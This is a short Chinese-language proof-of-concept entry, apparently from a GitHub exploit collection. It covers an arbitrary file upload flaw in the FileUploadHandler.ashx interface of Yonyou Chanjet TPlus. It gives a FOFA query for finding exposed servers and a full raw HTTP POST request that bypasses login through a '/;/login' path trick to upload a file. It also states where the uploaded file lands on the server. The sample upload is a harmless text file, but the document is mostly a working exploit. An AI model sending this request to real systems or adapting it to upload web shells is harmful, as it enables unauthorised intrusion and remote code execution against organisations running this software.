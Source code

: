 # 用友畅捷通-TPlus系统接口FileUploadHandler.ashx存在任意文件上传漏洞

用友畅捷通-TPlus系统接口FileUploadHandler.ashx存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
app="畅捷通-TPlus"
```

## poc

```pseudocode
POST /tplus/SM/SetupAccount/FileUploadHandler.ashx/;/login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 180
Content-Type: multipart/form-data; boundary=f95ec6be8c3acff8e3edd3d910d3b9a6

--f95ec6be8c3acff8e3edd3d910d3b9a6
Content-Disposition: form-data; name="file"; filename="test123.txt"
Content-Type: image/jpeg

test123
--f95ec6be8c3acff8e3edd3d910d3b9a6--
```

文件路径`/tplus/UserFiles/test123.txt`

